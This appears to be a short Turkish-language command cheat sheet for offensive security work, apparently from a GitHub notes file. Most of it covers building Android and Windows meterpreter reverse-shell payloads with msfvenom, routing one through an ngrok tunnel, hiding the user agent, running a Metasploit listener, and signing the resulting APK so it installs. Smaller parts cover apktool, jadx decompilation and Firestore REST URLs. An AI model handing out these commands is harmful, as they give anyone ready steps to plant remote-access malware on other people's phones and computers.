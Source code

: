 locate < dosyanın tam adı >

# Ngrok Msfvenom #

./ngrok tcp 4444

msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=1234 R > /root/Desktop/exploit.apk -i 20

service postgresql start

msfconsole use exploit/multi/handler set payload - LHOST=0.0.0.0 - LPORT=4444

msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe

# APK İmzalama #

install jdk

keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore ngroktest.apk alias_name

jarsigner -verify -verbose -certs android_shell.apk
 
# Türkçe Klavye #

setxkbmap tr

# App-Debug-APKTOOL ##

apktool d app-debug-apk

apktool b app-debug -o newapk.apk

# JDX #

jadx -d appdebug appdebug.apk

jadx -d appdebug appdebug.apk --deobf

# FireBase #

https://firestore.googleapis.com/v1/projects/YOUR_PROJECT_ID/databases/(default)/documents/cities/LA

https://firestore.googleapis.com/v1/projects/YOUR_PROJECT_ID/databases/(default)/documents/<Koleksiyon Adı>
